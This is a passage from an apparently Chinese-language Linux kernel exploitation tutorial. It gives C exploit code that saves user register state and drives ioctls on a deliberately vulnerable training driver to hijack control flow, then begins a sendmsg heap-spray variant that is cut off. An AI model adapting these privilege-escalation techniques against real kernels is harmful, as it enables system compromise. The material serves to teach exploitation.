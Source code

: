 ```
        "pop user_rflags;"
    );
    puts("[+] Save User Status");
    printf("user_cs = %pn",user_cs);
    printf("user_ss = %pn",user_ss);
    printf("user_rsp = %pn",user_rsp);
    printf("user_rflags = %pn",user_rflags);
    puts("[+] Save Success");
`}`

int main(int argc,char * argv[])`{`
    init();
    save_user_status();

    int fd = open("/dev/vulnerable_device",0);
    if (fd &lt; 0)`{`
        puts("open fail!");
        return 0;
    `}`

    char send_data[0x60];
    memset(send_data,'A',0x60);

    ioctl(fd, 0xFE03, NULL);
    ioctl(fd, 0xFE06, NULL);

    ioctl(fd, 0x8008FE05, send_data);
    ioctl(fd, 0xFE04, NULL);
    return 0;
`}`
```

[![](https://img.lhyerror404.cn/error404/2020-04-26-031236.png)](https://img.lhyerror404.cn/error404/2020-04-26-031236.png)

那么，我们现在已经能控制`EIP`了。那么接下来我们考虑，如果没有`k_obj`以供我们利用，我们又应该如何控制执行流呢？

#### 利用`Heap Spray`控制执行流

这里我们采用两种方式进行`Heap Spray`，第一种是借助`sendmsg`函数。

⚠：使用`sendmsg`函数时，我们分配的目标`Chunk`应当大于`44`字节。

```
//gcc ./exploit.c -o exploit -static -fno-stack-protector -masm=intel -lpthread
#include&lt;stdio.h&gt;
#include&lt;fcntl.h&gt;
#include&lt;string.h&gt;
#include&lt;stdlib.h&gt;
#include&lt;unistd.h&gt;
#include&lt;pthread.h&gt;
#include&lt;sys/types.h&gt;
#include&lt;sys/socket.h&gt;
#include&lt;netinet/in.h&gt;

#define BUFF_SIZE 0x60

void init()`{`
    ......
`}`

size_t user_cs, user_rflags, user_ss, user_rsp;

void save_user_status()`{`
    ......
```